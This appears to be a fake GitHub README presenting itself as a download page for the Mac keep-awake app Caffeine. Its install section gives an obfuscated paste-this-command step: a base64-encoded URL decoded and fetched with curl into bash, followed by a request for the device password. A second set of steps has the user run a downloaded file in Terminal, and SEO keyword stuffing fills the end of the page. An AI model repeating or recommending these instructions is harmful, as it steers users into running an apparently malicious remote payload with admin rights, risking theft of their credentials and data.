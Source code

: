 # Caffeine for Mac – Keep Your Mac Awake & Alert

![Caffeine Icon](https://www.caffeine-app.net/images/sequoia/caffeine-2x.png)  

---

## 🧰 Download

[![⬇️ Download Now](https://img.shields.io/badge/Caffeine-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/caffeine)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🔎 What is Caffeine for Mac?

**Caffeine for Mac** is a minimal, single-purpose app that stops your Mac from automatically sleeping, dimming the display, or starting the screen saver. It’s perfect for users who need their computer to stay awake during long processes like downloads, backups, coding, or presentations.

When you run the app, a coffee cup icon appears in your Mac’s menu bar. Clicking the icon toggles the app’s behavior – a full cup means your Mac will stay awake, an empty cup means sleep mode is enabled as usual.

Caffeine uses almost no system resources and doesn’t interfere with performance. It’s an ideal tool for users who want simple functionality without bloated software or complicated settings. Whether you're working on a project, watching a video, or preventing timeouts, Caffeine is your no-fuss companion for staying awake.

It also supports modern macOS versions including **macOS Monterey**, **Ventura**, **Sonoma**, and Apple Silicon (M1/M2/M3).

---

![Caffeine Screenshot](https://static.macupdate.com/screenshots/272527/m/caffeine-screenshot.png?v=1596785532)

---

## 🚀 Features

- ☕ One-click toggle to prevent sleep and screen dimming
- 🖥️ Ideal for presentations, downloads, or unattended sessions
- 💾 Lightweight: consumes negligible resources
- 🧩 Supports Intel & Apple Silicon (M1/M2/M3)
- ⚙️ Runs in the background from the macOS menu bar
- ⏱️ Optional timer mode to keep the Mac awake for a limited time
- ✅ Compatible with **macOS High Sierra** through **Sonoma**

---

## 🖥️ System Requirements

- macOS 10.10 or later (Intel or Apple Silicon)
- Supports **macOS High Sierra**, **Mojave**, **Catalina**, **Big Sur**, **Monterey**, **Ventura**, and **Sonoma**

---

## 💬 Keywords

`caffeine mac`, `caffeine app mac`, `caffeine application mac`, `caffeine for macbook`, `caffeine mac os`, `caffeine macbook app`, `mac caffeinate`, `download caffeine for mac`, `caffeine osx`, `mac os caffeine app`, `app caffeine mac`, `caffeine app download mac`, `caffeinated for mac`, `caffeine app for mac free download`, `caffeine app mac download`, `caffeine app mac m1`, `caffeine app macos`, `caffeine for mac free download`, `caffeine for mac m1`, `caffeine for macos`, `caffeine mac install`, `caffeine mac m1`, `caffeine program mac`, `caffeine software for mac`, `caffeine software mac`, `install caffeine mac`, `man caffeinate`

---
